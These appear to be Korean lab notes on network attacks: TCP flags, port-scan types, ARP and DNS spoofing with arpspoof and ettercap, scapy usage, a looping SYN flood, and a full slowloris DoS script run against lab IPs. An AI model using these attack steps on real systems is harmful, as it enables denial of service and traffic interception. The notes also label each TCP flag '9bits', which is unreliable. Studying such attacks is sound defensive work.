

## tcp flag

###  **TCP** **Flag (Control bits)**

 **URG(Urgent)** (9bits)   Urgent Pointer 필드에 값이 채워져 있으면 1, 그렇지 않으면 0

   \- URG가 1로 설정된 경우 패킷의 순서에 상관없이 먼저 송신됨.


 **ACK(Acknowledgement)** (9bits)   Acknowledgement Number 필드에 유효한 값이 채워져 있으면 1, 그렇지 않으면 0

   \- 0으로 설정된 경우 Acknowledgement Number 필드 무시됨.

   \- SYN 세그먼트 전송 이후(TCP 연결 시작 후) 모든 세그먼트에는 항상 이 비트가 1로 수신됨.


 **PSH(Push)** (9bits)   버퍼링 된 데이터를 가능한 빨리 상위 계층 응용프로그램에 즉시 전달하라는 것을 알리기 위한 컨트롤 비트

   \- 수신 측은 버퍼(수신용 메모리)가 찰 때까지 기다리지 않고 수신 즉시 버퍼링된 데이터를 응용 프로그램에 전달

   \- 예시) MTU가 1500인데 3500byte를 전송하는 경우 1500, 1500, 500 이렇게 세 번으로 나누어 전송. 이런 경우에 마지막 500byte를 전송할 때 PSH flag를 설정해서 여기가 끝이니까 묶어서 버퍼로 올려보내라는 의미를 전달

   \- 때로는 서버측에서 더이상 전송할 데이터가 없음을 나타낼 때 사용

  \* 아래의 사진을 이해할 수 없다면 <Chapter2. TCP/IP 데이터를 전기 신호로 만들어서 보낸다.(Part 1)> 참고


윈도우 제어 방식

 RST, SYN, FIN은 TCP 연결설정 및 연결 종료에 사용됨.


 **RST(Reset)** (9bits)   강제로 연결을 초기화하기 위한 컨트롤 비트

   \- RST 플래그를 '1'로 설정한 TCP 세그먼트를 송출한 경우

   ① LISTEN, SYN_RCVD 상태일 때 RST 수신 → LISTEN 상태 

   ② 그 밖의 상태일 때 RST 수신 → CLOSED 상태

   \* LISTEN, SYN_RCVD, CLOSED 등의 TCP 상태에 대한 추가적인 정보는 <TCP 상태> 참고


 **SYN(Synchronize)** (9bits)   연결을 시작하기 위한 컨트롤 비트

   \- TCP 3-way handshaking

   ① 연결 요청: SYN=1, ACK=0 (SYN 세그먼트)

   ② 연결 허락: SYN=1, ACK=1 (SYN+ACK 세그먼트)

   ③ 연결 설정: ACK=1                (ACK 세그먼트)


 **FIN(Finish)** (9bits)   연결을 종료하기 위한 컨트롤 비트

   \- 송신기가 데이터 보내는 것을 끝마침

   ① 종결 요청: FIN=1

   ② 종결 응담: FIN=1, ACK=1

**[출처]** [TCP 헤더와 플래그(Flag)](https://blog.naver.com/ak0402/221539958656)|**작성자** [ak0402](https://blog.naver.com/ak0402)

## 칼리 리눅스

- 포트 스캐닝

  특정 포트가 동작하고 있는지 확인하는 것 (ex. 80번 포트가 돌고있는지 확인하면 웹 서버가 돌고있다라는걸 알 수 있다.)

  - 가장 기본적인 것

    TCP Open Scan - TCP 연결과정(3-way handshaking)을 통해서 해당 포트의 실행(사용) 여부를 확인

    - 해당 포트가 유효하면  SYN →,  SYN/ACK ←,  ACK →   = 연결(세션)이 수립 = 접속(연결) 로그가 남음

      로그가 남으면 추적이 가능하기 때문에 공격자에게 안좋다.

    - 해당 포트가 무효하면  SYN →,  RST/ACK ←

    Stealth Scan - 기록을 남기지 않는 포트 스캔 방법

    - TCP half open scan = TCP SYN open scan

      해당 포트가 유효하면 : SYN →,  SYNC/ACK ←,  (RST →)	= ACK가 와도 그냥 가만히 대기하거나 리셋(나는 동작사실을 확인할 수 있음) = 연결이 수립되지 않음 = 로그가 남지 않는다.

      해당 포트가 무효하면 : SYN →,  RST/ACK ←

    - FIN scan

      해당 포트가 유효하면 : FIN →,  ??? (무응답)

      해당 포트가 무효하면 : FIN →,  RST/ACK ←

    - XMAS scan

      해당 포트가 유효하면 : FIN+PSH+URG(흔치 않은 플래그를 보냄) →,  ??? (무응답)

      해당 포트가 무효하면 : FIN+PSH+URG →,  RST/ACK ←

    - NULL scan

      해당 포트가 유효하면 : NULL(플래그를 비움) →,  ??? (무응답)

      해당 포트가 무효하면 : NULL →,  RST/ACK ←

## **ARP(Address Resolution Protocol)**


### **ARP Spoofing**

승인받은 사용자인 것처럼 시스템에 접근하거나 네트워크상에서 허가된 주소로 가장하여 접근 제어를 우회하는 공격 행위


### ARP Spoofing 방어

ARP cache table에 Gateway MAC 주소를 정적으로 설정

## MTM(Man in The Middle) attack

두 호스트 간에 통신을 하고 있을 때, 중간자가 사이에 끼어들어 통신 내용을 도청, 조작하는 공격


## scapy

파이썬으로 작성된 패킷 조작 도구

패킷 디코딩, 전송, 캡쳐, 수정 등 다양한 기능을 제공

https://www.itlkorea.kr/data/scapy-pocket-guide0.2.pdf

### TCP SYN Flooding

SYN 패킷을 계속해서 전달

### slowloris attack

- DoS 공격 기법 중 하나
- HTTP 요청 헤더와 본문이 개행문자로 구분되는 특징을 이용한 공격 = 요청 헤더의 끝이 개행문자로 끝나는 것을 활용한 공격
- 요청 헤더의 끝을 나타내는 개행문자를 서버로 전달하지 않고, 헤더를 계속해서 전달해, 연결을 유지시키는 공격 기법

# 실습

#### nmap (network map)

- 네트워크에 연결되어 있는 호스트의 정보를 파악하는 도구
- nmap을 이용해서 네트워크에 연결되어 있는 호스트의 IP, OS, Service Port, SW 등을 확인할 수 있음

nmap --help

SCAN TECHNIQUES:

  -**sS/sT**/sA/sW/sM: **TCP SYN/Connect()**/ACK/Window/Maimon scans

  -sU: UDP Scan

  -**sN/sF/sX: TCP Null, FIN, and Xmas scans**

  --scanflags <flags>: Customize TCP scan flags

  -sI <zombie host[:probeport]>: Idle scan

  -sY/sZ: SCTP INIT/COOKIE-ECHO scans

  -sO: IP protocol scan

  -b <FTP relay host>: FTP bounce scan


**Kali #1에 apache2, vsftp 서비스를 실행**

\# service apache2 start ← /avr/www/html 에 파일들 있음

\# service vsftpd start

**Kali#2에서 Kali#1으로 웹 서비스 요청과 FTP 서비스 요청을 할 수 있음**

- 아파치 서버가 작동중인지 파이어폭스로 확인해본다.


- ftp 가 작동중인지 ftp 명령어로 확인해본다.
- Victom쪽에서 와이어 샤크를 실행시킨 뒤 Attacker 쪽에서 포트 스캔을 해본다.


- 포트 스캔 방식과 포트를 지정해줘서 스캔을 해본다.


- 그 결과를 와이어샤크를 이용해 캡쳐한다. (TCP half open scan)


- 그 결과를 와이어샤크를 이용해 캡쳐한다. (TCP open scan)


- NULL, FIN, XMAS scan을 해보고 캡쳐해본다.


### ARP Spoofing

- **Kali2 (Attacker)가 arpspoofing을 한다.**

kali1(Victom) : 192.168.111.131

kali2(Attacker) : 192.168.111.132

WindowsXP : 192.168.111.133

- **root@kali2:~\# arpspoof -i eth0 -t VICTIM_IP(WINXP) GATEWAY_IP**

⇒ # arpspoof -i eth0 -t 192.168.111.131(133) 192.168.111.2

**공격 대상자의 arp 테이블의 게이트웨이 맥주소가 변경되는것을 확인할 수 있다.**

이제 게이트웨이로의 요청이 공격자에게 가고 공격자는 dns를 수행해주지 않기때문에 naver 접속이 되지 않는다.


가로챈 패킷을 원하는 방향으로 돌리고 싶을 때

- **root@kali2:~\# fragrouter -B1** ← 원래 방향으로 라우팅 해준다.

이제 공격자가 원래 경로로 라우팅해준다. dns 서버 사용이 가능해지기 때문에 naver 접속이 다시 가능해진다.

### ARP Spoofing 방어

Windows 두가지 방법

1. \> arp -s GATEWAY_IP GATEWAY_MAC

2. \> netst interface ip delete neighbors "NETWORK_CARD_NAME" "GATEWAY_IP"

   \> netst interface ip add neighbors "NETWORK_CARD_NAME" "GATEWAY_IP" "GATEWAY_MAC"

### MTM(Man in The Middle) attack

DNS Spoofing

etter.dns 파일 수정 ← DNS Spoofing에서 사용할 정보를 담고있는 파일 (Victom이 naver.com에 dns 요청을 할 때 naver.com의 응답 ip를 주지않고 공격자 자신의 ip를 주는 방식인데 그 정보를 담고있음)

**root@kali2:~\# gedit /etc/ettercap/etter.dns**


ettercap 실행

**root@kali2:~\# ettercap -G**


**Sniff > Unified sniffing > eth 0 ⇐ 스니핑할 NIC를 지정**

**Hosts > Scan for hosts ⇐ 해당 LAN에 존재하는 호스트를 검색**

**Hosts > Hosts list ⇐ 검색 결과를 확인**

공격 대상을 지정

**target1 => Gateway (192.168.111.2)**

**target2 => WinXP (192.168.111.140)**


Apr spoofing ⇒ 공격자를 공격 대상 사이에 위치 ⇒ WinXP <---> Kali#2 <---> Gateway

**Mitm > ARP Spoofing > Sniff remote connections **


DNS Spoofing 공격

**Plugins > Manage the plugins > dns_spoof **


**WinXP에서 http://www.naver.com으로 접속을 시도 → Kali#2에서 제공하는 웹 페이지가 보이면 공격 성공**


## scapy

```bash
root@kali:~# scapy
INFO: Can't import python gnuplot wrapper . Won't be able to plot.
WARNING: No route found for IPv6 destination :: (no default route?)
Welcome to Scapy (2.3.2)
>>> ls() ⇐ 지원하는 프로토콜을 확인
AH         : AH
ARP        : ARP
  :


>>> ls(TCP) ⇐ TCP 헤더 정보를 출력
sport      : ShortEnumField            = (20)
dport      : ShortEnumField            = (80)
seq        : IntField                  = (0)
ack        : IntField                  = (0)
dataofs    : BitField (4 bits)         = (None)
reserved   : BitField (4 bits)         = (0)
flags      : FlagsField (8 bits)       = (2)
window     : ShortField                = (8192)
chksum     : XShortField               = (None)
urgptr     : ShortField                = (0)
options    : TCPOptionsField           = ({})

>>> TCP().display() ⇐ 현재 설정되어 있는 TCP 정보를 출력
###[ TCP ]###
  sport= ftp_data
  dport= http
  seq= 0
  ack= 0
  dataofs= None
  reserved= 0
  flags= S
  window= 8192
  chksum= None
  urgptr= 0
  options= {}

>>> lsc() ⇐ 사용 가능한 기능을 확인
arpcachepoison      : Poison target's cache with (your MAC,victim's IP) couple
arping              : Send ARP who-has requests to determine which hosts are up
bind_layers         : Bind 2 layers on some specific fields' values
bridge_and_sniff    : Forward traffic between two interfaces and sniff packets exchanged
corrupt_bits        : Flip a given percentage or number of bits from a string
	:


# 현재 설정된 IP 헤더 정보를 출력
>>> IP().display()
###[ IP ]###
  version= 4
  ihl= None
  tos= 0x0
  len= None
  id= 1
  flags= 
  frag= 0
  ttl= 64
  proto= hopopt
  chksum= None
  src= 127.0.0.1
  dst= 127.0.0.1
  \options\

>>> ip = IP() ⇐ 변수를 활용
>>> ip.display()
###[ IP ]###
  version= 4
  ihl= None
  tos= 0x0
  len= None
  id= 1
  flags= 
  frag= 0
  ttl= 64
  proto= hopopt
  chksum= None
  src= 127.0.0.1
  dst= 127.0.0.1
  \options\


### 현재 IP 헤더에 목적지 주소를 변경
>>> ip.dst="192.168.111.130"
>>> ip.display()
###[ IP ]###
  version= 4
  ihl= None
  tos= 0x0
  len= None
  id= 1
  flags= 
  frag= 0
  ttl= 64
  proto= hopopt
  chksum= None
  src= 192.168.111.131
  dst= 192.168.111.130
  \options\

>>> ip=IP(dst="192.168.111.140")
>>> ip.display()
###[ IP ]###
  version= 4
  ihl= None
  tos= 0x0
  len= None
  id= 1
  flags= 
  frag= 0
  ttl= 64
  proto= hopopt
  chksum= None
  src= 192.168.111.131
  dst= 192.168.111.140
  \options\


### 레이어를 쌓는 방법
>>> tcp = TCP()
>>> ip = IP()
>>> packet = ip/tcp
>>> packet.display()
###[ IP ]###
  version= 4
  ihl= None
  tos= 0x0
  len= None
  id= 1
  flags= 
  frag= 0
  ttl= 64
  proto= tcp
  chksum= None
  src= 127.0.0.1
  dst= 127.0.0.1
  \options\
###[ TCP ]###
     sport= ftp_data
     dport= http
     seq= 0
     ack= 0
     dataofs= None
     reserved= 0
     flags= S
     window= 8192
     chksum= None
     urgptr= 0
     options= {}


>>> sniff()
^C<Sniffed: TCP:0 UDP:5 ICMP:0 Other:2>
>>> sniff()
^C<Sniffed: TCP:1707 UDP:76 ICMP:0 Other:4>
>>> sf = sniff()
^C>>> sf.display()
0000 Ether / IP / UDP / DNS Qry "www.kali.org." 
0001 Ether / IP / UDP / DNS Qry "www.kali.org." 
0002 Ether / IP / UDP / DNS Ans 
0003 Ether / IP / UDP / DNS Qry "tools.kali.org." 
0004 Ether / IP / UDP / DNS Qry "tools.kali.org." 
0005 Ether / IP / UDP / DNS Qry "www.offensive-security.com." 
0006 Ether / IP / UDP / DNS Qry "www.offensive-security.com." 
0007 Ether / IP / UDP / DNS Ans "192.124.249.10" 

0008 Ether / IP / UDP / DNS Ans "192.124.249.6" 
0009 Ether / IP / UDP / DNS Qry "www.nethunter.com." 
0010 Ether / IP / UDP / DNS Qry "www.nethunter.com." 
0011 Ether / IP / UDP / DNS Ans 
0012 Ether / IP / UDP / DNS Ans "34.198.182.201" 
0013 Ether / IP / UDP / DNS Qry "www.exploit-db.com." 
0014 Ether / IP / UDP / DNS Qry "www.exploit-db.com." 
0015 Ether / IP / UDP / DNS Ans 
0016 Ether / IP / UDP / DNS Ans 

:

>>> sf = sniff(count=10) ⇐ 10개 패킷만 스니핑 (완료 후 자동 종료됨)
>>> sf.display() ⇐ 스니핑 결과 출력
0000 Ether / IP / UDP / DNS Qry "www.kali.org." 
0001 Ether / IP / UDP / DNS Qry "www.kali.org." 
0002 Ether / IP / UDP / DNS Qry "tools.kali.org." 
0003 Ether / IP / UDP / DNS Qry "tools.kali.org." 
0004 Ether / IP / UDP / DNS Qry "www.offensive-security.com." 
0005 Ether / IP / UDP / DNS Qry "www.offensive-security.com." 
0006 Ether / IP / UDP / DNS Ans 
0007 Ether / IP / UDP / DNS Ans 
0008 Ether / IP / UDP / DNS Ans 
0009 Ether / IP / UDP / DNS Ans "192.124.249.6" 


>>> sf[0].show() ⇐ 스니핑 첫번째 결과 상세내용 출
###[ Ethernet ]###
  dst= 00:50:56:fd:f9:c0
  src= 00:50:56:34:96:a1
  type= 0x800
###[ IP ]###
     version= 4L
     ihl= 5L
     tos= 0x0
     len= 58
     id= 43230
     flags= DF
     frag= 0L
     ttl= 64
     proto= udp
     chksum= 0x31fe
     src= 192.168.111.131
     dst= 192.168.111.2
     \options\
###[ UDP ]###
        sport= 50619
        dport= domain
        len= 38
        chksum= 0x7762
###[ DNS ]###
           id= 16697
           qr= 0L
           opcode= QUERY
           aa= 0L
           tc= 0L
           rd= 1L
           ra= 0L
           z= 0L
           ad= 0L
           cd= 0L
           rcode= ok
           qdcount= 1
           ancount= 0
           nscount= 0
           arcount= 0
           \qd\
            |###[ DNS Question Record ]###
            |  qname= 'www.kali.org.'
            |  qtype= A
            |  qclass= IN
           an= None
           ns= None
           ar= None

```


### 2. **Scapy를 이용한 3-way handshaking**

```bash
>>> ip = IP() ⇐ IP 정보를 받아와서 확인
>>> ip.display()
###[ IP ]###
  version= 4
  ihl= None
  tos= 0x0
  len= None
  id= 1
  flags= 
  frag= 0
  ttl= 64
  proto= hopopt
  chksum= None
  src= 127.0.0.1
  dst= 127.0.0.1
  \options\

>>> ip.dst = "192.168.111.130" ⇐ 목적지 IP 주소를 Kali#1으로 변경하고 IP 정보를 확인
>>> ip.display()
###[ IP ]###
  version= 4
  ihl= None
  tos= 0x0
  len= None
  id= 1
  flags= 
  frag= 0
  ttl= 64
  proto= hopopt
  chksum= None
  src= 192.168.111.131
  dst= 192.168.111.130
  \options\

>>> tcp = TCP() ⇐ TCP 정보를 가져와서 확인
>>> tcp.display()
###[ TCP ]###
  sport= ftp_data
  dport= http
  seq= 0
  ack= 0
  dataofs= None
  reserved= 0
  flags= S
  window= 8192
  chksum= None
  urgptr= 0
  options= {}
>>> tcp.sport = RandNum(1024, 65535) ⇐ 출발지 포트번호를 랜덤하게 생성 후 TCP 정보를 확인
>>> tcp.display()
###[ TCP ]###
  sport= <RandNum>
  dport= http
  seq= 0
  ack= 0
  dataofs= None
  reserved= 0
  flags= S
  window= 8192
  chksum= None
  urgptr= 0
  options= {}

>>> syn = ip/tcp ⇐ SYN 패킷을 생성
>>> syn_ack = sr1(syn) ⇐ SYN 패킷을 전송 후 첫번째 응답이 올 때까지 대
Begin emission:
.Finished to send 1 packets.
*
Received 2 packets, got 1 answers, remaining 0 packets

>>> syn_ack.display() ⇐ SYN_ACK 패킷 확인
###[ IP ]###
  version= 4L
  ihl= 5L
  tos= 0x0
  len= 44
  id= 0
  flags= DF
  frag= 0L
  ttl= 64
  proto= tcp
  chksum= 0xda75
  src= 192.168.111.130
  dst= 192.168.111.131
  \options\
###[ TCP ]###
     sport= http
     dport= 52412
     seq= 2944719005L
     ack= 1
     dataofs= 6L
     reserved= 0L
     flags= SA
     window= 29200
     chksum= 0x707f
     urgptr= 0
     options= [('MSS', 1460)]
###[ Padding ]###
        load= '\x00\x00'


>>> ack = ip/TCP(sport=syn_ack[TCP].dport, dport=80, flags="A", seq=syn_ack[TCP].ack, ack=syn_ack[TCP].seq+1) ⇐ ACK 패킷 생성
>>> send(ack) ⇐ ACK 패킷 전송
.
Sent 1 packets.

```


### TCP SYN Flooding

```bash
@kali#1
root@kali:~# sysctl -a | grep syncookies
net.ipv4.tcp_syncookies = 1 ⇐ syncookies를 사용 = backlog que에 SYN 패킷을 저장하지 않음
sysctl: reading key "net.ipv6.conf.all.stable_secret"
sysctl: reading key "net.ipv6.conf.default.stable_secret"
sysctl: reading key "net.ipv6.conf.eth0.stable_secret"
sysctl: reading key "net.ipv6.conf.lo.stable_secret"

원활한 실습을 위해서 syncookies 사용을 해지
root@kali:~# sysctl -w net.ipv4.tcp_syncookies=0
net.ipv4.tcp_syncookies = 0
root@kali:~# sysctl -w root@kali:~# sysctl -a | grep syncookies
net.ipv4.tcp_syncookies = 0
sysctl: reading key "net.ipv6.conf.all.stable_secret"
sysctl: reading key "net.ipv6.conf.default.stable_secret"
sysctl: reading key "net.ipv6.conf.eth0.stable_secret"
sysctl: reading key "net.ipv6.conf.lo.stable_secret"


@Kali#2에서 RST 패킷이 외부로 나가지 못 하도록 방화벽에 등록
root@kali:~# iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP


root@kali:~# iptables -L -n ⇐ 방화벽 정책 확인
Chain INPUT (policy ACCEPT)
target     prot opt source               destination         

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination         
DROP       tcp  --  0.0.0.0/0            0.0.0.0/0            tcp flags:0x04/0x04

root@kali:~# iptables -D OUTPUT 1 ⇐ 정책 삭제
root@kali:~# iptables -L -n ⇐ OUPUT 첫번째 정책이 삭제된 것을 확인
Chain INPUT (policy ACCEPT)
target     prot opt source               destination         

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination        


@Kali#2
root@kali2:~# scapy
>>> ip = IP()
>>> ip.dst= "192.168.111.130"
>>> tcp = TCP()
>>> tcp.dport = 80
>>> tcp.sport = RandNum(1024,65535)
>>> tcp.flags = "S"
>>> syn = ip/tcp
>>> send(syn, loop=True) ← 무한으로 보내는 옵션

```


```bash
@Kali#1
root@kali:~# netstat -an | grep -i syn_recv
tcp6       0      0 192.168.111.130:80      192.168.111.131:31498   SYN_RECV   
tcp6       0      0 192.168.111.130:80      192.168.111.131:13962   SYN_RECV   
tcp6       0      0 192.168.111.130:80      192.168.111.131:58815   SYN_RECV   
tcp6       0      0 192.168.111.130:80      192.168.111.131:62506   SYN_RECV   
tcp6       0      0 192.168.111.130:80      192.168.111.131:60498   SYN_RECV   
tcp6       0      0 192.168.111.130:80      192.168.111.131:57556   SYN_RECV   
tcp6       0      0 192.168.111.130:80      192.168.111.131:19512   SYN_RECV   
tcp6       0      0 192.168.111.130:80      192.168.111.131:38476   SYN_RECV   
tcp6       0      0 192.168.111.130:80      192.168.111.131:50493   SYN_RECV   
tcp6       0      0 192.168.111.130:80      192.168.111.131:20851   SYN_RECV   
tcp6       0      0 192.168.111.130:80      192.168.111.131:20618   SYN_RECV   
tcp6       0      0 192.168.111.130:80      192.168.111.131:59819   SYN_RECV   
tcp6       0      0 192.168.111.130:80      192.168.111.131:58459   SYN_RECV   
tcp6       0      0 192.168.111.130:80      192.168.111.131:36364   SYN_RECV   
tcp6       0      0 192.168.111.130:80      192.168.111.131:15042   SYN_RECV   
tcp6       0      0 192.168.111.130:80      192.168.111.131:49831   SYN_RECV   
tcp6       0      0 192.168.111.130:80      192.168.111.131:18564   SYN_RECV 

```


### slowloris attack

# gedit slowloris.py

```bash
#! /usr/bin/env python

import sys
import time
from scapy.all import *

def slowloris (target, num) :
    print "start connect > {}".format(target)
    syn = []
    for i in range(num) :
        syn.append(IP(dst=target)/TCP(sport=RandNum(1024,65535),dport=80,flags='S'))
    syn_ack = sr(syn, verbose=0)[0]

    ack = []
    for sa in syn_ack :
        payload = "GET /{} HTTP/1.1\r\n".format(str(RandNum(1,num))) +\
        "Host: {}\r\n".format(target) +\
        "User-Agent: Mozilla/4.0\r\n" +\
        "Content-Length: 42\r\n"

        ack.append(IP(dst=target)/TCP(sport=sa[1].dport,dport=80,flags="A",seq=sa[1].ack,ack=sa[1].seq+1)/payload)
    
    answer = sr(ack, verbose=0)[0]
    print "{} connection success!\t Fail: {}".format(len(answer), num-len(answer))
    print "Sending data \"X-a: b\\r\\n\".."

    count = 1
    while True :
        print "{} time sending".format(count)
        ack = []
        for ans in answer :
            ack.append(IP(dst=target)/TCP(sport=ans[1].dport,dport=80,flags="PA",seq=ans[1].ack,ack=ans[1].seq)/"X-a: b\r\n")
        answer = sr(ack, inter=0.5, verbose=0)[0]
        time.sleep(10)
        count += 1

if __name__ == "__main__" :
    if len(sys.argv) < 3 :
        print "Usage: {} <target> <number of connection>".format(sys.argv[0])
        sys.exit(1)
    slowloris(sys.argv[1], int(sys.argv[2]))

```

Kali#2에서 해당 파일에 실행 속성을 부여

**\# chmod 755 slowloris.py**

Kali#1에서 아파치 서버 실행하고 IP를 확인

**\# service apache2 restart**

**\# ifconfig**

Kali#2에서 외부로 RST 패킷이 나가지 않도록 방화벽에 룰을 등록

**\# iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP**

```bash
root@kali:~# iptables -L
Chain INPUT (policy ACCEPT)
target     prot opt source               destination         

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination         
DROP       tcp  --  anywhere             anywhere             tcp flags:RST/RST
```

Kali#2에서 공격 명령 실행

**\# ./slowloris.py 192.168.111.130 50**

Kali#1에서 아파치 서버의 상태 확인

웹 브라우져에서 **localhost/server-status** 로 접속


Kali#1에서 wireshark 실행 후 Kali#2에서 ./slowloris.py 를 실행

tcp syn 패킷 우클릭 - follow - TCP Stream


헤더의 길이가 시간이 지남에 따라 길어진다.


Kali#1에서 mysql을 실행

\# service mysql restart

Kali#2에서 Kali#1으로 접속 

http://192.168.111.130 ⇒ 로그인 화면 출력

